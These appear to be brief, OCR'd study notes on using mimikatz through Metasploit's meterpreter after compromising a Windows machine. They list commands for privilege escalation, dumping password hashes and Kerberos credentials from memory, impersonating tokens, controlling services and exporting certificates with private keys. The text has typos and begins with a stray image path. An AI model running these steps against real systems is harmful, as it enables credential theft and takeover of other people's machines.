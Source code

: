 post exploitation tool written by Benjamin Delphy. 
mimikatz is a way to bundle together most useful tasks attacker may want to perform

mimikatz is also in themetasploit as a meterpreter scropt.
The version of mimikatz is v1.0 

getuid
getsystem -> priviledge escalation


sysinfo -> to verify the architecture of compromised machine

load mimikatz -> loads mimikatz to memory

help mimikatz -> displays the required commands

mimikatz_command -f version gives us access to full list of modules.

we can read hashes and passwords frmo memory

msv

kerberos

to get kerberos credentials

mimikatz_command -f handle can be used for impersonating user tokens

mimikatz_command -f handle::list

mimikatz_command -f service allows you to start, stop and remove windows services.

mimikatz_command -f crypto to list and export any certificates and their corresponding private keys